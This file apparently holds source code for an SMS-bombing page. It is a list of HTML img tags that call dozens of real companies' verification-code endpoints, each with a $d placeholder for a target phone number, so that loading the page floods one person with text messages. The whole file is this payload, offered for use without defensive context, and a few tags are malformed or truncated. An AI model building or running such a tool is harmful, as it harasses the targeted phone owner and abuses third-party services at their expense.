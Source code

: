 <img src='http://i.kuwo.cn/US/2014/api/send_sms.jsp?mobile=$d' alt=''/>
<img src='http://m.meilele.com/solr_api/captcha/mobileCaptcha/create_send_captcha.do?captchaType=mobileLogin&phoneNumber=$d' alt=''/>
<img src='http://wskh.newone.com.cn/newlogincontroller/getrandompassword?mobile=$d' alt=''/>
<img src='http://m.huibo.com/register/getAuthCode?txtPhone=$d' alt=''/>
<img src='http://www.lamall.com/user/sendsmscode?jsonpCallback=$.jsonp.jsonp1445158351&mobile=$d' alt=''/>
<img src='http://www.metromall.cn/user/MobileCode.aspx?randnum=&Phone=$d' alt=''/>
<img src='http://api.sssc.cn/seccode/reg?callback=&m=$d' alt=''/>
<img src='http://www.nongyisheng.com/sms/code?fr=pc&token=false&phone=$d' alt=''/>
<img src='http://passport.lotour.com/reg/sendPhoneCode?callback=&_=&mobile=$d' alt=''/>
<img src='http://www.youxia.cn/go/index.php?mod=account&code=getRandCode&pic_code=undefined&phone=$d' alt=''/>
<img src='http://my.ikang.com/loginUserReg/getGenerateCode?phone=$d' alt=''/>
<img src='http://passport.jcard.cn/Service/AjaxSendCodeService.aspx?doType=sendextcode&_=1445158370&mobile=$d' alt=''/>
<img src='http://www.cgv.com.cn/mem/getRegCapCha.fo?MOBILE_NO=$d' alt=''/>
<img src='http://i.360.cn/smsApi/sendsmscode?condition=2&r=&callback=&account=$d' alt=''/>
<img src='http://www.12320bst.com/beston/home/show!sendPhoneVerificode.action?principalVo.mobile=$d' alt=''/>
<img src='http://www.super8.com.cn/Ajax/HotelInterface.ashx?action=sendmsg&mobile=$d' alt=''/>
<img src='http://www.udache.com/app/mQuickReg/getSmsCode?phone=$d' alt=''/>
<img src='http://passport.ks5u.com/RPAjax.ashx?Param=009&PhoneNum=$d' alt=''/>
<img src='http://passport.kongzhong.com/ajax/regsmscode?t=0.09632707994321676&imgcode=6EX6&phone=$d' alt=''/>
<img src='http://koudaitong.com/v2/common/sms/imgcaptcha.jsonp?callback=jQuery1102009139976025888258_1433746978224&captcha_code=7998&_=1433746978226&mobile=$d' alt=''/>
<img src='http://smsspub.mail.163.com/mobileserv/fsms.do?product=AndroidMail&template=ds&callback=sendCallback0&_=1430485975547&mobile=$d' alt=''/>
<img src='http://koudaitong.com/v2/common/sms/imgcaptcha.jsonp?callback=jQuery1102020099561656467435_1430461129946&captcha_code=0722&_=1430461129948&mobile=$d' alt=''/>
<img src='http://koudaitong.com/v2/common/sms/captcha.jsonp?callback=jQuery1102020099561656467435_1430461129946&verifyTimes=1&biz=kdt_account_captcha&_=1430461129949&mobile=$d' alt=''/>
<img src='https://dakaapp.troila.com:443/api/v7/index/send_sms?phone=$d' alt=''/>&expect=0
<img src='https://exmail.qq.com/cgi-bin/bizmail_portal?action=send_sms&type=11&t=biz_rf_portal_mgr&ef=jsnew&resp_charset=UTF8&area=86&mobile=$d' alt=''/>&img_vc=
<img src='http://www.yundaipay.com/index/user/getMsgCode?username=$d' alt=''/>    
<img src='https://mobile.health.pingan.com/ehis-hl/ajax/sendOTP.action?smscc=ehiswxonly&phone=$d' alt=''/>  
<img src='http://bank.wo.cn/wxun/api/my/getSmsCode?mobile=$d' alt=''/>
<img src='http://wap.zt.raiyi.com/weixin/bind/verifyMobile?mobile=$d' alt=''/>&appCode=fc_wx&buyChannel=OfficialAccounts&vtype=0  
<img src='https://client.uqbike.com/sms/sendAuthCode.do?accountId=5&phone=$d' alt=''/>    
<img src='https://passport.fanhuan.com/login/asklogincode?callback=jQuery18307700360712450502_1523359569433&mobile=$d' alt=''/>&_=1523359575414
<img src='https://appapi-h5.yongche.com/Common/CreateAuthCode?cellphone=$d' alt=''/>
<img src='https://nuc.api.mgtv.com/GetMobileCode?_support=10100001&device=Redmi&osVersion=6.0.1&appVersion=6.2.0&ticket=&userId=0&mac=i8812baafc8de4fe&osType=android&channel=qq&uuid=&endType=mgtvapp&androidid=8812baafc8de4fe4&imei=&macaddress=&seqId=&version=5.2&type=10&abro
<img src='https://uac.10010.com/oauth2/OpSms?callback=jsonp1544753247279&req_time=1544753262715&user_id=$d' alt=''/>&app_code=ECS-YH-WAP
<img src='https://uac.10010.com/portal/Service/SendMSG?callback=jQuery172076565523879526_1506486642542&req_time=1506486656403&mobile=$d' alt=''/>&_=1506486656411
<img src='http://114.55.104.205/api/auth/send?mobile=$d' alt=''/>&access_token=$d' alt=''/> 
<img src='https://sso-c.souche.com/loginApi/getCaptchaUrlByPhone.json?app=tangeche&phone=$d' alt=''/>
<img src='http://api-v1.ezpaychain.com/invoice/v1/user/send-sms?calling_codes=%2B86&phone_number=$d' alt=''/>&type=activation&version=1
<img src='http://api.fine3q.com/link-site/api/user/get_verification_code.json?ts=1561901787148&c_id=1&p=a&d_id=861913032338784&ver=3.1.5&mobile=$d' alt=''/>